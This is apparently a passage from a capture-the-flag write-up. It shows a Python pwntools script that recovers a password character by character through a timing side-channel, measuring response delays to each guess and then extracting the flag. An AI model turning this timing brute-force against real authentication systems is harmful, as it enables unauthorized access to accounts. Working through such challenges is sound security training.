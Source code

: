 ```py
        start_time = time.time()
        p.sendline(guess.encode())
        output = p.recvall(timeout=0.2)
        end_time = time.time()
        p.close()

        duration = end_time - start_time

        if b"Access granted" in output:
            password = guess
            log.success(f"Password found: {password}")
            try:
                flag = output.split(b'change?\n')[1].strip()
                log.success(f"FLAG: {flag.decode()}")
            except IndexError:
                log.warning("Failed to auto-parse flag. Printing raw output:")
                print(output.decode())
            exit(0)

        if duration > max_time:
            max_time = duration
            best_char = char

    if best_char:
        password += best_char
        log.info(f"Found character: '{best_char}'. Current password: '{password}'")
    else:
        log.error("Failed to find the next character.")
        log.info("Timing attacks can be unstable. Try running the script again.")
        exit(1)
```

![](extracredit2.png)

then just input all that we got,

![](extracreditflag.png)
